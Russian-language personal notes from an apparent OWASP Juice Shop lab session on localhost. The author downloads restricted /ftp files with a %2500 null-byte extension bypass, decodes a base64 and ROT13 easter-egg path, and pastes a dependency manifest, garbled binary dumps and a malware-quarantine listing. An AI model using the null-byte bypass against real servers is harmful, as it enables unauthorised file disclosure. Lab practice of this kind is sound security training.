    "grunt-contrib-compress": "~1.4",

    "grunt-contrib-concat": "~1.0",

    "grunt-contrib-uglify": "~3.2",

    "hashids": "~1.1",

    "helmet": "~3.9",

    "html-entities": "~1.2",

    "jasmine": "^2.8.0",

    "js-yaml": "3.10",

    "jsonwebtoken": "~8",

    "jssha": "~2.3",

    "libxmljs": "~0.18",

    "marsdb": "~0.6",

    "morgan": "~1.9",

    "multer": "~1.3",

    "pdfkit": "~0.8",

    "replace": "~0.3",

    "request": "~2",

    "sanitize-html": "1.4.2",

    "sequelize": "~4",

    "serve-favicon": "~2.4",

    "serve-index": "~1.9",

    "socket.io": "~2.0",

    "sqlite3": "~3.1.13",

    "z85": "~0.0"

  },

  "devDependencies": {

    "chai": "~4",

    "codeclimate-test-reporter": "~0.5",

    "cross-spawn": "~5.1",

    "eslint": "~4.7",

    "eslint-scope": "3.7.2",

    "form-data": "~2.3",

    "frisby": "~2.0",

    "grunt-cli": "~1.2",

    "http-server": "~0.10",

    "jasmine-reporters": "~2.2",

    "jest": "~22",

    "karma": "~1.7",

    "karma-chrome-launcher": "~2.2",

    "karma-cli": "~1.0",

    "karma-coverage": "~1.1",

    "karma-jasmine": "~1.1",

    "karma-junit-reporter": "~1.2",

    "karma-phantomjs-launcher": "~1.0",

    "karma-safari-launcher": "~1.0",

    "lcov-result-merger": "~1.2",

    "mocha": "~4",

    "nyc": "~11",

    "phantomjs-prebuilt": "~2",

    "protractor": "~5",

    "shelljs": "~0.7",

    "sinon": "~4",

    "sinon-chai": "~2.14",

    "socket.io-client": "~2.0",

    "standard": "~10",

    "stryker": "~0",

    "stryker-api": "~0",

    "stryker-html-reporter": "~0",

    "stryker-jasmine": "~0",

    "stryker-karma-runner": "~0",

    "stryker-mocha-runner": "~0"

  },

  "repository": {

    "type": "git",

    "url": "https://github.com/juice-shop/juice-shop.git"

  },

  "bugs": {

    "url": "https://github.com/juice-shop/juice-shop/issues"

  },

  "license": "MIT",

  "scripts": {

    "postinstall": "npm --prefix ./app install ./app && grunt minify",

    "start": "node app",

    "test": "standard && karma start karma.conf.js && nyc --report-dir=./coverage/server-tests mocha test/server",

    "frisby": "nyc --report-dir=./coverage/api-tests node ./test/apiTests.js",

    "preupdate-webdriver": "npm install",

    "update-webdriver": "webdriver-manager update",

    "preprotractor": "npm run update-webdriver",

    "protractor": "node test/e2eTests.js",

    "stryker": "stryker run stryker.client-conf.js",

    "vagrant": "cd vagrant && vagrant up"

  },

  "engines": {

    "node": ">=6 <=9"

  },

  "standard": {

    "ignore": [

      "/app/private/****",**

      **"/vagrant/****"

    ],

    "env": {

      "jasmine": true,

      "node": true,

      "browser": true,

      "mocha": true,

      "protractor": true

    },

    "globals": [

      "angular",

      "inject"

    ]

  },

  "nyc": {

    "include": [

      "lib/*_.js",_

      _"routes/_*.js"

    ],

    "all": true,

    "reporter": [

      "lcov",

      "text-summary"

    ]

  },

  "jest": {

    "testMatch": [

      "****/test/api/*****_Spec.js"_**

    **_],_**

    **_"testPathIgnorePatterns": [_**

      **_"/node_modules/",_**

      **_"/app/node_modules/"_**

    **_]_**

  **_}_**

**_}_**
```


пробую
http://127.0.0.1:3003/ftp/package-lock.json.bak%2500.md

и тут сокровище просто,,, тут вся инфа о всей системе епта!
вот этот файл (он здоровый!)


![[package-lock.json.bak%00 (1)]]


```q
например : **Node.js 6-9** (очень старая версия!)

и там в файле - вообще все зависимости есть!! то вообще все, и их версии!
```

#### на данный момент! это только этот тест, уже решилось 7 тестовых заданий😂 , а я только глянул просто /ftp и следуя подсказкам в ошибках обошел ограничение и скачал файлы!



---------


также вот тут лежит файл какой-то
http://127.0.0.1:3003/ftp/announcement_encrypted.md
он шифрованный

вот он
![[fileBIGcrypt.txt]]

-------


и вот тут тоже шифрованное что-то
http://127.0.0.1:3003/ftp/encrypt.pyc%2500.md
```js
Û

"ó≈^c

≥ ¨oCK'PnØx'ûgÜ*ntüNnk/'tÔ(ºéBpı$R[Ú5äh◊“(ªTÏ™Ôfˆ4á<%Ò¢eÑ|\z0¯?g-.MËF„o«x˜=v- õP§1A;¸nÈ.ÆIqU,OO9~

N(
```

------


вот тут http://127.0.0.1:3003/ftp/eastere.gg%2500.md
это
теперь я яичный охотник епта 😂 egg hunte
тут ключ какой -то похоже
и может им можно открыть файл который  лежит здесь http://127.0.0.1:3003/ftp/announcement_encrypted.md
```q
"Congratulations, you found the easter egg!"

- The incredibly funny developers
...
...
...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==


Good luck, egg hunter!
```

если разбираться с этим
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

то расскодировав это вижу - и это какая та хуита

/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```




вот че обнаружил дипсик




он базарит, что типо просто тут каждую букву можно сместить на 13 символов и получим валидный путь

пробую сам (открыл алфавит и реально , хахха - это шифр цезаря епта!!! в обратном порядке 13 символов назад от буквы)

gur = the

итого
```c
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

переходим и удивляемся

ухаха там блять, планета


и  на северном полюсе клевер какой то, хз, лепестки растения
это типо планета - апельсин!!


в исходном коде особо ничего не нашел - только код этой всей приблуды есть и все

ну повеселило это )
хотя, как мне кажется, пользы от этого не так много конечно )

-----------


вот еще
http://127.0.0.1:3003/ftp/package.json.bak%2500.md


```q
{

  "name": "juice-shop",

  "version": "6.2.0-SNAPSHOT",

  "description": "An intentionally insecure JavaScript Web Application",

  "homepage": "http://owasp-juice.shop",

  "author": "Björn Kimminich <bjoern.kimminich@owasp.org> (https://kimminich.de)",

  "contributors": [

    "Björn Kimminich",

    "Jannik Hollenbach",

    "Aashish683",

    "greenkeeper[bot]",

    "MarcRler",

    "agrawalarpit14",

    "Scar26",

    "CaptainFreak",

    "Supratik Das",

    "JuiceShopBot",

    "the-pro",

    "Ziyang Li",

    "aaryan10",

    "m4l1c3",

    "Timo Pagel",

    "..."

  ],

  "private": true,

  "keywords": [

    "web security",

    "web application security",

    "webappsec",

    "owasp",

    "pentest",

    "pentesting",

    "security",

    "vulnerable",

    "vulnerability",

    "broken",

    "bodgeit"

  ],

  "dependencies": {

    "body-parser": "~1.18",

    "colors": "~1.1",

    "config": "~1.28",

    "cookie-parser": "~1.4",

    "cors": "~2.8",

    "dottie": "~2.0",

    "epilogue-js": "~0.7",

    "errorhandler": "~1.5",

    "express": "~4.16",

    "express-jwt": "0.1.3",

    "fs-extra": "~4.0",

    "glob": "~5.0",

    "grunt": "~1.0",

    "grunt-angular-templates": "~1.1",

    "grunt-contrib-clean": "~1.1",

    "grunt-contrib-compress": "~1.4",

    "grunt-contrib-concat": "~1.0",

    "grunt-contrib-uglify": "~3.2",

    "hashids": "~1.1",

    "helmet": "~3.9",

    "html-entities": "~1.2",

    "jasmine": "^2.8.0",

    "js-yaml": "3.10",

    "jsonwebtoken": "~8",

    "jssha": "~2.3",

    "libxmljs": "~0.18",

    "marsdb": "~0.6",

    "morgan": "~1.9",

    "multer": "~1.3",

    "pdfkit": "~0.8",

    "replace": "~0.3",

    "request": "~2",

    "sanitize-html": "1.4.2",

    "sequelize": "~4",

    "serve-favicon": "~2.4",

    "serve-index": "~1.9",

    "socket.io": "~2.0",

    "sqlite3": "~3.1.13",

    "z85": "~0.0"

  },

  "devDependencies": {

    "chai": "~4",

    "codeclimate-test-reporter": "~0.5",

    "cross-spawn": "~5.1",

    "eslint": "~4.7",

    "eslint-scope": "3.7.2",

    "form-data": "~2.3",

    "frisby": "~2.0",

    "grunt-cli": "~1.2",

    "http-server": "~0.10",

    "jasmine-reporters": "~2.2",

    "jest": "~22",

    "karma": "~1.7",

    "karma-chrome-launcher": "~2.2",

    "karma-cli": "~1.0",

    "karma-coverage": "~1.1",

    "karma-jasmine": "~1.1",

    "karma-junit-reporter": "~1.2",

    "karma-phantomjs-launcher": "~1.0",

    "karma-safari-launcher": "~1.0",

    "lcov-result-merger": "~1.2",

    "mocha": "~4",

    "nyc": "~11",

    "phantomjs-prebuilt": "~2",

    "protractor": "~5",

    "shelljs": "~0.7",

    "sinon": "~4",

    "sinon-chai": "~2.14",

    "socket.io-client": "~2.0",

    "standard": "~10",

    "stryker": "~0",

    "stryker-api": "~0",

    "stryker-html-reporter": "~0",

    "stryker-jasmine": "~0",

    "stryker-karma-runner": "~0",

    "stryker-mocha-runner": "~0"

  },

  "repository": {

    "type": "git",

    "url": "https://github.com/juice-shop/juice-shop.git"

  },

  "bugs": {

    "url": "https://github.com/juice-shop/juice-shop/issues"

  },

  "license": "MIT",

  "scripts": {

    "postinstall": "npm --prefix ./app install ./app && grunt minify",

    "start": "node app",

    "test": "standard && karma start karma.conf.js && nyc --report-dir=./coverage/server-tests mocha test/server",

    "frisby": "nyc --report-dir=./coverage/api-tests node ./test/apiTests.js",

    "preupdate-webdriver": "npm install",

    "update-webdriver": "webdriver-manager update",

    "preprotractor": "npm run update-webdriver",

    "protractor": "node test/e2eTests.js",

    "stryker": "stryker run stryker.client-conf.js",

    "vagrant": "cd vagrant && vagrant up"

  },

  "engines": {

    "node": ">=6 <=9"

  },

  "standard": {

    "ignore": [

      "/app/private/****",**

      **"/vagrant/****"

    ],

    "env": {

      "jasmine": true,

      "node": true,

      "browser": true,

      "mocha": true,

      "protractor": true

    },

    "globals": [

      "angular",

      "inject"

    ]

  },

  "nyc": {

    "include": [

      "lib/*_.js",_

      _"routes/_*.js"

    ],

    "all": true,

    "reporter": [

      "lcov",

      "text-summary"

    ]

  },

  "jest": {

    "testMatch": [

      "****/test/api/*****_Spec.js"_**

    **_],_**

    **_"testPathIgnorePatterns": [_**

      **_"/node_modules/",_**

      **_"/app/node_modules/"_**

    **_]_**

  **_}_**

**_}_**
```

------
также нашел несколько вирусов 😂 
че это - непонятно пока , но оч интресно!
качаются с гитфхаба - весят по 5 мб примерно

```
  
Search

# [~](http://127.0.0.1:3003/) / [ftp](http://127.0.0.1:3003/ftp/) / [quarantine](http://127.0.0.1:3003/ftp/quarantine)

- [..](http://127.0.0.1:3003/ftp/ "..")
- [juicy_malware_linux_amd_64.url1665/12/2026 11:59:39 AM]
  (http://127.0.0.1:3003/ftp/quarantine/juicy_malware_linux_amd_64.url "juicy_malware_linux_amd_64.url")
- [juicy_malware_linux_arm_64.url1665/12/2026 11:59:39 AM]
  (http://127.0.0.1:3003/ftp/quarantine/juicy_malware_linux_arm_64.url "juicy_malware_linux_arm_64.url")
- [juicy_malware_macos_64.url1625/12/2026 11:59:39 AM]
  
  (http://127.0.0.1:3003/ftp/quarantine/juicy_malware_macos_64.url "juicy_malware_macos_64.url")
- [juicy_malware_windows_64.exe.url1685/12/2026 11:59:39 AM]
  (http://127.0.0.1:3003/ftp/quarantine/juicy_malware_windows_64.exe.url "juicy_malware_windows_64.exe.url")
```

--------

вот здесь бинарная шляпа
http://127.0.0.1:3003/ftp/incident-support.kdbx%2500.md
```
Ÿ¢ög˚Kµˇπ¯U{å%†€≥jïä<Øñ˝fl~„°d„eõÄ·6 ◊∂_-ܶÉ+Å6åΩ¸a%µcë4˘â´ì∞¿ãzF∆Ç∂ √<_iWoÑPÔîŸ≈<©nfl°flfl¸„" ∑.,2{û§fi

  

òÿ¢L«ø#•ÖB˝Qf*L´è$"÷TXRõ’,6‹fleòvçö]ƒ?fˇ˛rJ«Œ®¯3zïè&'´ÌÜ…§˜‚äï÷v_Wã(ùnlzQàFªÚØE9+ò8$Ä™"nˇ„U∂flV£#Ã˙Ïp«›^flœí-üßœƒ*éEsVòœÖæ•››¡Æ-˛$ï™m¢ã®óµ“ÚCQkõ¥7Lu%î&D“°vG.ØóŸ¥áu™Œ|¿›@¯ºÜ«&Ã#‚ZMi{¨„ˆñ^b‹©On-"éä˚˚≈¨fi2◊>c›6õ¢fxΩJ…QìC“ºnMÆA£9ˇ(°}˝\D¯.[wıfi¸ˆ¿5akCΩÓÌÙC9ÏÚπU?°‰ˆ|fiœìÏàÒ<¥7‡áqLÁ ˘˚ïW–&tçµÄdΩc·≤J*)RÛW&Ú«$§Ì©8~ìçZP®`#Ùw¬˚ÅS≤Ω≠∑wï1GøWå⁄0ôµÍ;^L∂G≥Ü"¡N◊ípWáb—µFhTߟ»Úµ cHe:∆≠'Í"\Xƒ5ëÈYwrøUØHoŸv=4x’êF>kÔ¥‚|©EÒ¬UõqU∞uÏt

Lk[Oó•îVúÅIΩA•≠ØÇ⁄"^˜ª«Üªπfi4ìñ1¬IÉ∞NdìßÜ:NŸä8zçÈå˜fi™Yö“L∂}í†Ø≈ôö(&ùãd3(+b:o~◊xÛ©≤É˚õñΩÓm<»+µÍ¬S4eæy∑E

ˆ =è˛úmõQFÀ{ ãÇi&ΩFUöÖxVnTñ”n@˚∂¢™rã›FY2!0ñF8c ‰s=£úæC äÀöm€:›Y¬2'flîgW∏À<ºr°√¬˘á≈mËàɆkáØúh*•Û@ù$œJde›è.Ω

®yÌEш[è¡xÉ>£SåG[ö©Åâ)i@á%YȨ£p=g≈ç˚XZv?∂

u7¿¯ß

*ågwLàÔ·˘$às)m3s∞3ºvS”å‹àSefiSáúÄ«÷è–):ù\wê±ãÔöÃxj∏›ë5»7sÿ

ÕÕ9ë˙ÑHpxO.ä&:nÄ óÏ*√¢’ùÌ8-wœ ‚l˘ß— z∂$Ó£öW⁄''Knπ[hfdH˚≈ZÖàñ˙1y:ä,78MQ—

c-¿ˇ?@ËW%ÁÕ˚m¥GLC•ÕÎÉœ§òc§⁄2ˇ∫§E9–U{ˆzTè¢Ü:∑=ècÿ^ {I≤^°~&„Ü’b:‚¶+ä…¶]ô˛>È)-µ∏¸C≠á”^·√øÇÀleÔã¥wÒ!Z⁄GÆŒ2æ˜zñÏ\Y-hFôOà¢/ñXlòk∞‡≥üå\epyWˆò·J.–ß‘ÊÅ@DR‹*_·≈*0∆ˆ‚ñ[ŒKõé¬9^ÌL∏‰ìçä…_<µ8˜ÒfŸ∑à{ãÊ˝ºè)±~è8™J‡.∞˛¥¢s·DãYDˇÒQËı˚I⁄Êá˛Çy∆{mñº&Uì,Bê(9Üãözâ¢nz¯‡j?ˇ⁄}:πÍËdöËy‰NYkµé¿¶.fi“bãc™–ás≈ıÉ6»`eO w™√ø˙ÑuM‘Kô«ùT{º_¬Ç;

Üí«4˛Ωfl˛∂‘iÅ$Øû¢1kȆeÙy¸Ü#∆%˘Œáùé¬d(‹P€/˚√YrÓ5ÆñÁÌôˆø*√ Ã»F

≤=€RõGù˙òÇ¡b˛Ÿq†y>˘˛‡kÌMxÛö1 ãÔ£°‘√‡g÷∑zÍ™ê/‚=u‰*˜Ó*ÃeÍflî'"H‹ƒˆN^ìL¡∆’‰®whãl`^Úú∑U?Œ:]IUÂ◊àbd„~∞:’^†ãT!·É‘¸î¿7^…ì)?˝/øè3)€O¶¡|ÌÿZUÕ·©á∏¯,¡I∂ê•2∏¯ú⁄YÅ5WwνDõ;\<høM?·†(ÀâzË˚ıJIv£ôLLvÈæΩ°9eyEZ˚%öÙyôºâ{¡ã ò÷ R≥.¨fi?À?ó∫Ã∑é™®m¢ó“LJq∆πbߣÖÊ

≠éUú °%Hâr-B˜Km]πÓ3rFû¥˘›°œEPÿÓ—≤“^çÅZü9J‘ı˚<oO5c›|¬l)ÓEʧ◊Lÿ̨√¥ÚôÓ2Â1'≥ªÌù´Í´åß–7ó‚è„ò·πA¶9’¶⁄?!

S€éCà ?€D!(öƒ&Ñœ@‹@˜Òñ9Ùi„U[+Ei&¯°»ù¡©¸+3_±/^Ó£ZΑ Ü

(Õc‘"rˆ˙±««ôeó«U¶Ás»â

…@ªt-éâ.owNfm:Pfi⁄€º!Í-6»p≤Ï≈çŸRåóá8yj¡¨Ô "^ìË∞∑• ÊGå◊MÌb'«`≥¯)§%Ï|cêtπõjéIÚ6$ÃW¶yµUTôÛ·®-ËE≥ò|S◊x˝–<N”Uoóûó°qˆ˛”ÓÅ•Âes0CH.∏d‰ø†ísSjÎ

™.o˛œßÑ<“s&ƒ§%7L3˝à˜`ƒgWP[Kæ%<´∆dı—Üf◊€ëÍñúß#aΩ∏2óâzflúˇ†ŒâÕŸû´Œ{˛àï É`uºÅßà&†k¡Ãfiö∑rTX√5a÷Œ—†%¶,Iú¿Ÿà÷ß-6]ï˘÷—ÿ$,.¯wÓv˛9ù¡H¯c"¿j$0’˘8s¸,/’J¿.EŸky@{µpâLy!„Ä¿›c™x+“f-OO‚>}'ëô≈Ö$Øì)GÛ

œÛ\.»ôfi€ÆÄ•‚S¶∫%ÕÈgãyî˝¿¶c˛¬ÖȱÊy≥›à™$è4w⁄îÏî˙üéRÈ'#/È

ºOd˙~D◊EZp¥cQ‹Íà†nˆáÙ1£(æ4iÓñZ≥°‡3˜FõËflÚ∞flè„Œ iä‚Vi5 ,"ûrã$ì∂≥‡ˇ©µhÆÄ=HNMÚvBƒª}lÄ≤EÙ)õsπÓ/|πÜfl[◊v—R˛k|Iín˝∏›

d4p¿gˆf¶47Z΃úÂ3tHI$O∫‡î+\EåŒT9 6®´è∂Lxívı•|\πÂ17–g•AÍ/>:Õ¥~‰…v∆ûI@Õ∞vá>x7r=ö∂∏è∫!¯3È“µ6 ïtœúÁå6(ã¬P‘2≤ïk‚!oS a¥WΩ”å?}Í]ΩìyÛÜ"Da:n∏3Ô˜!e¶µî6Hog‰ãäÊ:∑ı•I…Z¡.ªáÅàã∞ǃΩ"‰ñ[ß}|¢(ÅM¥À›43Irœ©ë⁄√¡Ñç

◊sìéñEfiÙ∆Uèpi7nu0$L@˛`6Ÿ∫¥†M≈¥œ°6ºqƒ=‡çªp@B0Â_8ªâ$Óÿ/‘ã ›ÊÑ¥«∫qU˪"’∂ø˜—ªvÊ[ı^∞) ˙PtÂ≠≠èéflRü.wÁ<ÿ√uå&À\ë6—∑7Û/΂b∏òæw8|ÇpQC*˙åüP∏v0A∫2ü∑⁄ ·‘”gíÛíÃ

-u€lŸ•˝Ã©¶yπ »

E•Ωùí껓*"Ç…YÖ{Ω(bùHxzí%Û∑¥÷∆nk‚*¶Ÿ∫

Ò0xUlÂÙy7Rü«

ˇ|c‘åßÄö 0%eNl∞g"OÿÆ6L/H±µ˛ì¢·20pg##Ñ'Å≈Yâ(fiÈ°±+ôGptÌ€≥[¢–wKË£€™ZJXÿK SŸmD≥àHΩ¥ŸE˙¨úUet˘2ÖGUmab)€ÇU»/˙∑çPñÒ$∞ü∞É7-_Õ∫-€∑ñ—¨Hys7é…˜—ÁÑ•i¨€wıEÖ'“ÙÙÖP¯≈F¯ÅR«ïõAÍ +ˇ≈È£•xû…’fa|≠
```
----------